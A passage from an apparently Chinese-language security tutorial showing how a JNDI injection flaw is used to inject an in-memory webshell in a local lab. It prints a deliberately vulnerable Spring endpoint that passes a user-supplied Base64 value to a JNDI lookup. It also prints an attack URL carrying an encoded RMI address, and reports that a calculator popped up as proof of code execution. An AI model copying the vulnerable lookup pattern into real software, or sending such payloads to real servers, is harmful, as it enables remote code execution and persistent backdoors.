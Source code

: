 ### 利用 JNDI 注入漏洞实现内存马注入

启动漏洞环境，代码如下

```plain
@GetMapping({"/jndi"})
    public void jndi(@RequestParam String b) throws Exception {
        byte[] decodedBytes  = Base64.getDecoder().decode(b);
        String decodedUrl = new String(decodedBytes , StandardCharsets.UTF_8);
        InitialContext ctx = new InitialContext();
        ctx.lookup(decodedUrl);
    }
```

访问 URL 完成攻击（传过去的`jndi-url`是`rmi://localhost:11451/remoteObj`）

`http://localhost:8080/memShell/jndi?b=cm1pOi8vbG9jYWxob3N0OjExNDUxL3JlbW90ZU9iag==`

随便访问一个不存在的目录，成功弹出了计算器[![](assets/1701678277-d491c44f360f6ae00099c29332c9e9bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224600-2da4f024-8f8f-1.png)
